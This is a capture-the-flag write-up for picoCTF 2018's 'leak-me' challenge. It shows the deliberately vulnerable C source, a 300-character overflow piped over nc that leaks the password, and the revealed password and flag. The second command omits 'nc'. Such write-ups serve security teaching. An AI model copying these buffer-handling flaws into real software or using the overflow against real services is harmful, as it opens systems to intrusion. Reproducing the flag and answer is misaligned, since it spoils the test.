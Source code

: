 ```yaml
---
layout: writeup
title: 'Binary Exploitation 200: leak-me'
level: 
difficulty: 
points: 
categories: []
tags: []
flag: picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
---
```

## Challenge

Can you authenticate to [this service](writeupfiles/auth) and get the
flag? Connect with nc 2018shell1.picoctf.com 31045.

[Source](writeupfiles)

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    
    int flag() {
      char flag[48];
      FILE *file;
      file = fopen("flag.txt", "r");
      if (file == NULL) {
        printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
        exit(0);
      }
    
      fgets(flag, sizeof(flag), file);
      printf("%s", flag);
      return 0;
    }
    
    
    int main(int argc, char **argv){
    
      setvbuf(stdout, NULL, _IONBF, 0);
    
      // Set the gid to the effective gid
      gid_t gid = getegid();
      setresgid(gid, gid, gid);
    
      // real pw:
      FILE *file;
      char password[64];
      char name[256];
      char password_input[64];
    
      memset(password, 0, sizeof(password));
      memset(name, 0, sizeof(name));
      memset(password_input, 0, sizeof(password_input));
    
      printf("What is your name?\n");
    
      fgets(name, sizeof(name), stdin);
      char *end = strchr(name, '\n');
      if (end != NULL) {
        *end = '\x00';
      }
    
      strcat(name, ",\nPlease Enter the Password.");
    
      file = fopen("password.txt", "r");
      if (file == NULL) {
        printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
        exit(0);
      }
    
      fgets(password, sizeof(password), file);
    
      printf("Hello ");
      puts(name);
    
      fgets(password_input, sizeof(password_input), stdin);
      password_input[sizeof(password_input)] = '\x00';
    
      if (!strcmp(password_input, password)) {
        flag();
      }
      else {
        printf("Incorrect Password!\n");
      }
      return 0;
    }
{: .language-c}

If we overflow the buffer for the `name` variable, we can get the flag

    $ python -c 'print("a" * 300)' | nc 2018shell1.picoctf.com 31045
    Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,a_reAllY_s3cuRe_p4s$word_d98e8d
    
    Incorrect Password!

so it output the password for this, we connect again and use the
password to get our flag:

    $ echo -e 'bla\na_reAllY_s3cuRe_p4s$word_d98e8d' | 2018shell1.picoctf.com 31045
    What is your name?
    bla
    Hello bla,
    Please Enter the Password.
    picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}

## Solution

